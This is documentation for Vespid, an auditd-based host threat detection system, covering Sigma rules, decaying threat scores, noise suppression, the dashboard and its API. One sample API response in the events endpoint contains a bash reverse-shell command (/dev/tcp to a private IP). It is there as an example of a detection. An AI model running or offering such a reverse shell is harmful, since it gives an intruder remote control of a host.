


# Host Threat Detection (Auditd Pipeline)

Vespid includes a host-based threat detection system that monitors process
execution on Linux hosts via auditd. It provides real-time detection using Sigma
rules, exponential-decay threat scoring, an automatic learning period, and a
centralized dashboard for triage and suppression.

---

## Overview

The auditd pipeline watches every process execution (`execve` syscall) on
monitored hosts, evaluates each event against loaded Sigma rules, computes
a per-host threat score with time decay, and surfaces findings through a
unified Host Threats Dashboard on the Vespid Server.

### Key Capabilities

| Capability | Description |
|---|---|
| **Process Monitoring** | Captures all `execve` events via auditd kernel rules |
| **Sigma Detection** | Matches events against community Sigma rules mapped to MITRE ATT&CK |
| **Threat Scoring** | Exponential-decay accumulator with configurable half-life and threshold |
| **Learning Mode** | Auto-baselines a host before activating detections |
| **Noise Suppression** | Bulk-suppress noisy rules from a visual analysis panel |
| **Kill Chain Timeline** | Scatter chart of detections colored by ATT&CK tactic |
| **Process Tree** | Visual parent/child process lineage for forensic context |
| **Alerting** | Fires alerts when the decayed score crosses a configurable threshold |

---

## Architecture



### Agent-Side Components

| Component | File | Purpose |
|---|---|---|
| `AuditdAssembler` | `vespid/auditd/parser.py` | Reassembles multi-line auditd records into `HostEvent` objects |
| `HostDetector` | `vespid/auditd/detector.py` | Evaluates events against Sigma rules, maintains process tree |
| `HostScorer` | `vespid/auditd/scorer.py` | Accumulates time-decaying score per host, triggers alerts |
| `ModeManager` | `vespid/auditd/mode_manager.py` | Manages learning → detecting → alerting state machine |
| `ProcessTree` | `vespid/auditd/detector.py` | Tracks parent/child relationships with TTL eviction |

### Server-Side Components

| Component | File | Purpose |
|---|---|---|
| `host_threats_bp` | `app/host_threats.py` | Flask blueprint with all dashboard endpoints |
| `config_resolution` | `app/config_resolution.py` | Resolves effective config profile (direct or group-based) |
| Dashboard templates | `app/templates/admin/host_threats/` | HTMX + JS panel renderers |

---

## Prerequisites

### Auditd Configuration

The agent requires auditd to log all `execve` syscalls. Install the provided
rules file:

```bash
sudo cp /etc/vespid/auditd-execve.rules /etc/audit/rules.d/vespid-execve.rules
sudo augenrules --load
```

Or apply immediately (non-persistent):

```bash
sudo auditctl -R /etc/vespid/auditd-execve.rules
```

Verify rules are active:

```bash
auditctl -l | grep execve
```

Expected output:

```
-a always,exit -F arch=b64 -S execve
-a always,exit -F arch=b32 -S execve
```

!!! note "Prerequisite Check"
    The agent automatically checks for execve rules at startup and logs a
    warning if they are missing. Detection will not function without these rules.

---

## Configuration

Auditd monitoring is configured in the agent's YAML config file under the
`auditd` section:

```yaml
auditd:
  enabled: true
  log_path: /var/log/audit/audit.log
  mode: learning                    # learning | detecting | alerting
  learning_duration_hours: 24       # 1–720 hours
  scorer_half_life_seconds: 1800    # 60–86400 (default 30 min)
  scorer_threshold: 100             # 1–10000
  alert_cooldown_seconds: 900       # 0–86400 (default 15 min)
  process_tree_ttl_seconds: 3600    # 60–604800 (default 1 hour)
  exclude_pids: []
  exclude_uids: []
  exclude_exe_prefixes:
    - /usr/lib/dpkg
    - /usr/bin/apt
    - /usr/bin/rpm
    - /usr/bin/dnf
    - /usr/lib/systemd
```

### Configuration Parameters

| Parameter | Default | Range | Description |
|---|---|---|---|
| `enabled` | `false` | — | Enable/disable the auditd pipeline |
| `log_path` | `/var/log/audit/audit.log` | — | Path to the auditd log file |
| `mode` | `learning` | learning/detecting/alerting | Initial detection mode |
| `learning_duration_hours` | `24` | 1–720 | Hours to baseline before auto-promoting |
| `scorer_half_life_seconds` | `1800` | 60–86400 | Decay half-life for threat score |
| `scorer_threshold` | `100` | 1–10000 | Score at which alerts trigger |
| `alert_cooldown_seconds` | `900` | 0–86400 | Cooldown between repeated alerts |
| `process_tree_ttl_seconds` | `3600` | 60–604800 | How long to retain parent process info |
| `exclude_pids` | `[]` | — | PIDs to never evaluate |
| `exclude_uids` | `[]` | — | UIDs to never evaluate |
| `exclude_exe_prefixes` | (see above) | — | Executable path prefixes to skip |

---

## Detection Modes

The auditd pipeline operates in one of three modes, managed by the
`ModeManager` state machine:



### Learning Mode

- **Duration**: Configurable (default 24 hours)
- **Behavior**: Events are collected and sent to the server but no alerts fire
- **Purpose**: Establish a baseline of normal process executions
- **Auto-promotion**: After `learning_duration_hours` elapse, automatically
  transitions to "detecting"
- **Dashboard**: Host card shows "learning" badge with remaining hours

### Detecting Mode

- **Behavior**: Events are evaluated against Sigma rules, detections are recorded,
  scores are computed, but no alerts fire
- **Purpose**: Operator reviews detections before enabling alerts
- **Dashboard**: Full noise analysis and suppression available

### Alerting Mode

- **Behavior**: Same as detecting, plus alerts fire when the effective score
  crosses the configured threshold
- **Cooldown**: After an alert fires, no further alerts for that host until
  the cooldown period expires

!!! tip "Mode Override"
    The operator can force any mode at any time via the config file. Config
    overrides always take precedence over the persisted state machine.

---

## Threat Scoring

### Algorithm

Each detection contributes a weighted score that decays exponentially over time:

$$
\text{effective\_score} = \sum_{i} w_i \cdot 2^{-(t_{now} - t_i) / \text{half\_life}}
$$

Where:

- $w_i$ = severity weight of detection $i$
- $t_i$ = timestamp of detection $i$
- $\text{half\_life}$ = configured decay rate (default 1800s / 30 minutes)

### Severity Weights

| Severity | Weight | Halves to negligible in |
|---|---|---|
| Critical | 50 | ~5 hours |
| High | 25 | ~5 hours |
| Medium | 10 | ~5 hours |
| Low | 5 | ~5 hours |
| Informational | 1 | ~5 hours |

Severity is derived from the Sigma rule's `level` field, which maps to the
`event_type` stored in `host_events`.

### Alert Triggering

An alert fires when:

1. The effective score transitions from **below** the threshold to **at or above** it
2. No cooldown is active for that host
3. The host is in **alerting** mode

After an alert fires, a cooldown period prevents repeat alerts for the same host.

---

## Host Threats Dashboard

The unified dashboard at `/admin/host-threats` provides a list → detail
navigation pattern:

### Host List View

On page load, the dashboard shows the **Summary Cards** panel — a paginated
grid of all hosts with detections in the past 24 hours.

Each card shows:

- **Score gauge**: Radial indicator with color (green/yellow/red)
- **Hostname**: With overflow ellipsis for long names
- **Mode badge**: learning (blue), detecting (purple), or alerting (amber)
- **Detection count**: Events in the past 24 hours
- **Last detection**: Timestamp of the most recent event
- **Top rules**: Top 3 firing rules with grouped count badges

Cards are clickable — clicking navigates to the host's detail view.

### Host Detail View

Clicking a host card reveals the full detail view with:

1. **Noise Analysis Panel** — Learning-period detections ranked by fire count
2. **Kill Chain Timeline** — Scatter chart of detections by ATT&CK tactic
3. **Threat Score History** — 24h score sparkline with threshold line and alert dots
4. **Event Timeline** — Paginated table of all detection events

A "← Back to hosts" link returns to the card list.

---

## Noise Analysis & Suppression

### Purpose

After a host completes its learning period, operators use the Noise Analysis
panel to identify rules that fire frequently as part of normal baseline activity
(noise) and suppress them in bulk.

### Workflow

1. Click a host card to open the detail view
2. The **Noise Analysis Panel** shows all rules that fired during the learning period,
   ranked by fire count (noisiest first)
3. Select rules to suppress:
    - **Manual**: Check individual rule checkboxes
    - **Preset**: Click "Only Show High/Critical" to auto-select all low/medium rules
    - **Select All**: Use the header checkbox
4. Click **"Suppress Selected"** to apply
5. Dashboard panels immediately refresh to exclude suppressed rules

### Noise Analysis Table Columns

| Column | Description |
|---|---|
| Checkbox | Select for bulk suppression |
| Rule Name | Sigma rule identifier |
| Fire Count | Total times fired during learning period |
| Severity | Normalized: critical, high, medium, low |
| Sample Command | Most recent command line (truncated to 120 chars, full in tooltip) |

### Severity Filter Preset

The "Only Show High/Critical" button:

- **First click**: Checks all low and medium severity rules (marking them for suppression)
- **Second click**: Unchecks only those rules (reverts to prior selection state)
- Preserves any manual selections on high/critical rules

### Suppression Mechanics

Suppressed rules are stored in the host's **Config Profile** settings JSON:

```json
{
  "suppress_rules": ["sigma_cron_execution", "sigma_apt_update"],
  "group_rules": { ... },
  "threshold_rules": { ... }
}
```

- Suppression performs a **set-union merge** — no duplicate entries
- All dashboard panels filter out suppressed rules via `_apply_suppression`
- Profiles are resolved via priority: direct assignment → group assignment → none

!!! warning "Learning Mode Restriction"
    The "Suppress Selected" button is disabled while a host is in learning mode.
    You can still view the noise analysis data, but suppression is only available
    after the learning period completes.

---

## Kill Chain Timeline

A Chart.js scatter chart showing detections plotted over time, colored by
MITRE ATT&CK tactic:

| Tactic | Color |
|---|---|
| Initial Access | Blue |
| Execution | Orange |
| Persistence | Red |
| Privilege Escalation | Dark Red |
| Defense Evasion | Yellow |
| Credential Access | Purple |
| Lateral Movement | Violet |
| Command and Control | Crimson |
| Exfiltration | Pink |

### Features

- Time window selector: 1h, 6h, 12h, 24h, 3d, 7d
- Hostname filtering (global or per-card click)
- Tooltip shows rule name, timestamp, and command line
- Auto-refreshes every 60 seconds (in detail view)

---

## Threat Score History (Sparkline)

A Chart.js line chart showing the effective threat score over the past 24 hours
at 5-minute intervals (288 data points).

### Chart Elements

- **Blue line**: Effective score over time
- **Red dashed line**: Configured threshold (default 100)
- **Red dots**: Alert trigger points (where score crossed threshold)

### Y-Axis Scaling

The Y-axis dynamically scales to show the full peak score with 10% headroom.
The minimum range is 2× the threshold.

### Info Line

Below the chart: hostname, threshold value, and peak score.

---

## Event Timeline

A paginated table of all detection events for the selected host, showing:

| Column | Description |
|---|---|
| Timestamp | When the event was detected |
| Hostname | The host that fired the detection |
| Rule Name | Sigma rule that matched |
| Executable | Process binary path |
| Command Line | Full command with arguments (truncated, full in tooltip) |
| PID | Process ID |
| PPID | Parent Process ID |
| 🌳 Tree | Link to the Process Tree visualization |

- Paginated with prev/next controls
- Auto-refreshes every 60 seconds in detail view
- Filters to the selected host

---

## Process Tree Visualization

Available via the "🌳 Tree" link on any event row, or at
`/admin/host-threats/process-tree?hostname=X`.

Shows the parent/child process lineage for a host, helping operators
understand the execution context of a detection (e.g., was `curl` spawned
by `bash` spawned by `sshd`?).

The process tree is maintained agent-side with a configurable TTL
(`process_tree_ttl_seconds`). Older entries are evicted to bound memory usage.

---

## API Reference

### GET /admin/host-threats/noise-analysis

Returns learning-period detection rules ranked by fire count.

**Query Parameters:**

| Param | Type | Required | Description |
|---|---|---|---|
| `hostname` | string (1–255) | Yes | Target host identifier |

**Success Response (200):**

```json
{
  "hostname": "web-01",
  "learning_start": "2024-01-14T10:00:00Z",
  "learning_end": "2024-01-15T10:00:00Z",
  "rules": [
    {
      "rule_name": "sigma_cron_execution",
      "fire_count": 847,
      "severity": "low",
      "sample_command": "/usr/sbin/cron -f"
    }
  ]
}
```

**Error Responses:**

| Code | Body | Condition |
|---|---|---|
| 400 | `{"error": "missing_hostname"}` | Hostname absent or empty |
| 404 | `{"error": "host_not_found"}` | No node record for hostname |
| 404 | `{"error": "no_learning_data"}` | Node lacks learning period timestamps |

---

### POST /admin/host-threats/suppress

Apply bulk rule suppression to a host's config profile.

**Request Body:**

```json
{
  "hostname": "web-01",
  "rules": ["sigma_cron_execution", "sigma_apt_update"]
}
```

**Validation:**

- `hostname`: required, string, 1–255 characters
- `rules`: required, array of non-empty strings, 1–500 items

**Success Response (200):**

```json
{
  "success": true,
  "total_suppressed": 5
}
```

**Error Responses:**

| Code | Body | Condition |
|---|---|---|
| 400 | `{"error": "invalid_request"}` | Missing or malformed body |
| 404 | `{"error": "host_not_found"}` | No node record for hostname |
| 400 | `{"error": "no_profile_assigned"}` | Host has no config profile |
| 500 | `{"error": "malformed_profile_settings"}` | Profile settings JSON corrupted |

---

### GET /admin/host-threats/summary

Returns per-host summary card data for all active hosts.

**Query Parameters:**

| Param | Type | Default | Description |
|---|---|---|---|
| `hostname` | string | (all) | Filter to a single host |
| `page` | int | 1 | Page number |
| `per_page` | int | 30 | Cards per page |
| `half_life` | float | 1800 | Decay half-life in seconds |
| `threshold` | float | 100 | Alert threshold |

**Response (200):**

```json
{
  "cards": [
    {
      "hostname": "web-01",
      "effective_score": 85.2,
      "event_count": 42,
      "top_rules": [
        {"name": "sigma_reverse_shell", "count": 12, "grouped_count": 5}
      ],
      "last_detection": "2024-01-15T14:30:00Z",
      "mode": "detecting",
      "gauge_color": "yellow",
      "gauge_percent": 85
    }
  ],
  "total": 12,
  "page": 1,
  "total_pages": 1,
  "has_next": false,
  "has_prev": false
}
```

---

### GET /admin/host-threats/score-history

Returns 24h score timeseries (288 points at 5-minute intervals).

**Query Parameters:**

| Param | Type | Default | Description |
|---|---|---|---|
| `hostname` | string | — | Required. Host to compute scores for |
| `half_life` | float | 1800 | Decay half-life in seconds |
| `threshold` | float | 100 | Alert threshold |

**Response (200):**

```json
{
  "labels": ["2024-01-15T10:00:00Z", "2024-01-15T10:05:00Z", "..."],
  "scores": [0.0, 12.5, "..."],
  "threshold": 100,
  "hostname": "web-01"
}
```

---

### GET /admin/host-threats/timeline

Returns Kill Chain Timeline data (Chart.js scatter format).

**Query Parameters:**

| Param | Type | Default | Description |
|---|---|---|---|
| `hostname` | string | (all) | Filter to a single host |
| `hours` | int | 24 | Time window in hours |

---

### GET /admin/host-threats/events

Returns paginated detection events.

**Query Parameters:**

| Param | Type | Default | Description |
|---|---|---|---|
| `hostname` | string | (all) | Filter to a single host |
| `page` | int | 1 | Page number |

**Response (200):**

```json
{
  "events": [
    {
      "timestamp": "2024-01-15T14:30:00Z",
      "hostname": "web-01",
      "rule_name": "sigma_reverse_shell",
      "exe": "/bin/bash",
      "command_line": "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1",
      "pid": 12345,
      "ppid": 1000
    }
  ],
  "total": 150,
  "page": 1,
  "total_pages": 8,
  "has_next": true,
  "has_prev": false
}
```

---

## Database Schema

The host threat detection system uses the following tables (no schema changes
required for the noise analysis feature):

### host_events

Stores all detection events sent by agents:

| Column | Type | Description |
|---|---|---|
| `id` | INTEGER | Primary key |
| `hostname` | VARCHAR | Host that generated the event |
| `timestamp` | TEXT | ISO 8601 timestamp |
| `event_type` | VARCHAR | Severity level (contains "critical", "high", etc.) |
| `rule_name` | VARCHAR | Sigma rule identifier |
| `pid` | INTEGER | Process ID |
| `ppid` | INTEGER | Parent Process ID |
| `exe` | TEXT | Executable path |
| `command_line` | TEXT | Full command line |
| `uid` | INTEGER | User ID |
| `auid` | INTEGER | Audit User ID |
| `raw_line` | TEXT | Original auditd log line |
| `node_id` | VARCHAR | Agent node identifier |
| `ingested_at` | TEXT | Server ingestion timestamp |

**Indexes:**

- `idx_host_events_hostname` — single-column on hostname
- `idx_host_events_timestamp` — single-column on timestamp
- `idx_host_events_node_id` — single-column on node_id
- `idx_host_events_hostname_timestamp` — composite for time-windowed queries
- `idx_host_events_ingested_at` — for ingestion-time queries

### config_profiles

Stores configuration profiles including suppression rules:

| Column | Type | Description |
|---|---|---|
| `id` | INTEGER | Primary key |
| `settings` | TEXT (JSON) | Profile settings including `suppress_rules` array |
| `is_active` | BOOLEAN | Whether the profile is currently active |

### config_assignments

Links profiles to nodes (directly or via groups):

| Column | Type | Description |
|---|---|---|
| `profile_id` | INTEGER | FK to config_profiles |
| `node_id` | VARCHAR | Direct agent assignment |
| `group_id` | INTEGER | Group-based assignment |
| `is_active` | BOOLEAN | Whether assignment is active |
| `assigned_at` | TEXT | Assignment timestamp |

---

## Operational Notes

### Performance

- The composite index `idx_host_events_hostname_timestamp` ensures time-windowed
  queries (noise analysis, score history) are fast even with millions of events
- Score history computation uses an incremental algorithm (O(events + 288)
  instead of O(events × 288)) for sub-second response times
- The process tree agent-side is bounded by `max_entries` (default 100,000) with
  TTL-based eviction

### Exclusions

Use exclusion lists to reduce noise at the source:

- `exclude_exe_prefixes`: Skip known-safe binaries (package managers, systemd)
- `exclude_pids`: Skip specific process IDs (e.g., the agent itself)
- `exclude_uids`: Skip specific user IDs (e.g., monitoring accounts)

### State Persistence

- **Mode state**: Persisted to `STATE_DIR/auditd_mode_state.json`; survives
  daemon restarts
- **Suppression rules**: Stored server-side in `config_profiles.settings` JSON
- **Process tree**: In-memory only; rebuilt from auditd logs after restart

### Troubleshooting

| Symptom | Likely Cause | Fix |
|---|---|---|
| No detections appearing | auditd rules not loaded | Run `auditctl -l \| grep execve` |
| All scores are 0 | Host still in learning mode | Wait for learning period to complete |
| Dashboard shows stale data | Agent not heartbeating | Check agent connectivity |
| Noise analysis returns "no_learning_data" | Node missing heartbeat data | Verify agent is sending `last_host_info` |
| Score history loads slowly | Large event volume | Check composite index exists |
